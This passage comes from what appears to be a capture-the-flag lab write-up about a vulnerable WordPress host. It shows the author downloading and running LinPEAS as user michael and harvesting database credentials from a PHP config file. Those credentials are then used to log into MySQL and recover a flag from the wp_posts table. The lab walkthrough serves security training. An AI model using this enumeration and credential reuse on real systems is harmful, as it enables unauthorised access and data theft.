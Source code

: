   - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}


      **Method Used**
      - With access to to michaels account [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) was downloaded to the /tmp/ direcotry for some automated enumeration for any security misconfigurations that may be of interest.
      
```
michael@target1:/tmp$ git clone https://github.com/carlospolop/PEASS-ng.git
Cloning into 'PEASS-ng'...
remote: Enumerating objects: 7031, done.
remote: Counting objects: 100% (1799/1799), done.
remote: Compressing objects: 100% (592/592), done.
remote: Total 7031 (delta 1205), reused 1602 (delta 1136), pack-reused 5232
Receiving objects: 100% (7031/7031), 35.55 MiB | 13.88 MiB/s, done.
Resolving deltas: 100% (4118/4118), done.
Checking connectivity... done.
michael@target1:/tmp$ cd PEASS-ng/
michael@target1:/tmp/PEASS-ng$ cd linPEAS/
michael@target1:/tmp/PEASS-ng/linPEAS$ ./linpeas.sh 
```
- It discovered the credentials `root:R@v3nSecurity` to a database in a poorly protected php config file.
```bash
╔══════════╣ Searching passwords in config PHP files
define('DB_PASSWORD', 'R@v3nSecurity');                                                                                                    
define('DB_USER', 'root');
        define('DB_PASSWORD', $pwd);
        define('DB_USER', $uname);
        $pwd = trim( wp_unslash( $_POST[ 'pwd' ] ) );
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_USER', 'root');
define('DB_PASSWORD', 'password_here');
define('DB_USER', 'username_here');
```
- Using these creds we were able to access the mysql database.
```
michael@target1:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 43
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
- flag3 was found in the wordpress database and in the wp_posts table.
```
As a new WordPress user, you should go to <a href="http://192.168.206.131/wordpress/wp-admin/">your dashboard</a> to delete this page and create new pages for your content. Have fun! | Sample Page  |              | publish     | closed         | open        |               | sample-page   |         |        | 2018-08-12 22:49:12 | 2018-08-12 22:49:12 |                       |           0 | http://192.168.206.131/wordpress/?page_id=2                      |          0 | page      |                |             0 |
|  4 |           1 | 2018-08-13 01:48:31 | 0000-00-00 00:00:00 | flag3{afc01ab56b50591e7dccf93122770cd2} 
```